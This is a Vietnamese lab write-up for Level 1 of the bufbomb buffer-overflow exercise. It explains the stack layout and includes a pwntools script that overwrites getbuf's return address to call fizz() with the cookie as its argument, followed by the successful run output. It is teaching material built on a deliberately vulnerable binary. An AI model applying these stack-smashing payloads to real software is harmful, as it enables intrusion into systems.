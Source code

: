# Level 1
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Buffer overflow để thực thi được hàm `fizz()`.  

## Solution
Ở level này, cách chúng ta exploit cũng tương tự như ở [level 0](https://github.com/datthinh1801/NT209.L21.ANTN.Group_1/tree/main/Lab%205/Level%200), chỉ có duy nhất 1 điểm khác biệt là hàm `fizz()` có 1 tham số truyền vào.  
```c
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}
```  

Bên cạnh đó, hàm `fizz()` này sẽ so sánh giá trị được truyền vào với giá `cookie` được tạo từ `username`. Nếu 2 giá trị bằng nhau thì chuỗi `Fizz!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console, nếu không thì chuỗi `Misfire!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console.  

Vậy bên cạnh việc overflow để thực thi được hàm `fizz()`, chúng ta còn cần phải truyền được giá trị bằng với giá trị `cookie` vào hàm `fizz()` này.  

Tiếp theo, để quyết định được payload để nhập vào chương trình, chúng ta sẽ xem stack trước khi hàm `Gets()` được thực thi.  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+
```  
> Tương tự ở level 0, payload của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `4` bytes cuối là địa chỉ của hàm `fizz()`.

Stack khi bắt đầu thực thi hàm `fizz()`:  
```
+---------------------------------+
|           argument 1            |
+---------------------------------+
|     return address (fizz)       |---> return address của hàm fizz()
+---------------------------------+
|           ebp (fizz)            |---> đỉnh của stack
+---------------------------------+
```  

Khi hàm `fizz()` được thực thi thì giá trị của tham số thứ nhất sẽ được truy xuất qua tham chiếu `(%ebp + 8)` (như hình minh họa ở trên). Chính vì vậy, để thành công trong việc truyền giá trị vào hàm thì chúng ta cần ghi thêm `8` bytes vào payload với `4` bytes đầu để ghi đè giá trị của return address của hàm `fizz()` và `4` bytes cuối cùng chính là giá trị mà chúng ta muốn truyền vào hàm `fizz()`.

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo process tới chương trình bufbomb
main_handler = process(['./bufbomb', '-u', '09821978'])

# tạo process tới chương trình makecookie để tạo cookie
cookie_getter = process(['./makecookie', '09821978'])
# lưu giá trị cookie
cookie = cookie_getter.recvline()[2:-1]
cookie = int(cookie, 16)
print(f"cookie: {hex(cookie)}")

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) bytes ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)
# lấy địa chỉ của hàm fizz() thêm vào payload
exploit_payload += p32(e.symbols['fizz'])
# tiếp tục chèn thêm 4 ký tự 'A' vào payload
# để ghi đè return address của hàm fizz
exploit_payload += b'A'*4
# chèn giá trị cookie vào payload
exploit_payload += p32(cookie)

print(f"exploit payload: {exploit_payload}")

with open('payload.txt', 'wb') as f:
    f.write(exploit_payload)

main_handler.sendline(exploit_payload)
main_handler.interactive()
```  

Stack khi bị overflow:  
```
+---------------------------------+
|             cookie              |---> tham số thứ nhất của hàm fizz()
+---------------------------------+
|             'AAAA'              |---> return address của hàm fizz()
+---------------------------------+
|      địa chỉ của hàm fizz()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+
```  

Chạy script.  
```
└─$ ./level1.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 29
[+] Starting local process './makecookie': pid 31
[*] Process './makecookie' stopped with exit code 0 (pid 31)
cookie: 0x31f21393
exploit payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x9b\x13\x80AAAA\x93\x13\xf21'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 29)
Userid: 09821978
Cookie: 0x31f21393
Type string:Fizz!: You called fizz(0x31f21393)
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
